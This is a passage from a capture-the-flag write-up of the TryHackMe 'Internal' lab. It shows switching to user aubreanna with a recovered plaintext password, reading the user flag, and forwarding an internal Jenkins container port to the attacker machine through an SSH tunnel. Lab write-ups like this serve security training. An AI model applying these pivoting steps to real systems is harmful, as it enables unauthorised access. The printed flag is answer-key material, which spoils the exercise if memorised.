 ### Then we tried to switch the user 
```
su aubreanna 
Password: bubb13guM!@#123

aubreanna@internal:/opt$ 

```
### And BOOOOOMMMMMMMM!!!!!!!!!!! Finally we got the user flag 
```
aubreanna@internal:~$ cat user.txt
cat user.txt
THM{int3rna1_fl4g_1}
```

## Prev Esc

### And there is another file named jenkins, lets check it
```
aubreanna@internal:~$ cat jenkins.txt
cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080

```

### Here we get to know that its running a docker container
### So, to access it we are going to use SSH tunneling technique to forward Jenkins ip:port to our attacker machine’s ip:port
```
ssh -L 6767:172.17.0.2:8080 aubreanna@internal.thm                                                                                                            1 ⚙
aubreanna@internal.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov 20 11:56:16 UTC 2021

  System load:  0.08              Processes:              116
  Usage of /:   63.7% of 8.79GB   Users logged in:        0
  Memory usage: 33%               IP address for eth0:    10.10.51.186
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug  3 19:56:19 2020 from 10.6.2.56
aubreanna@internal:~$
```
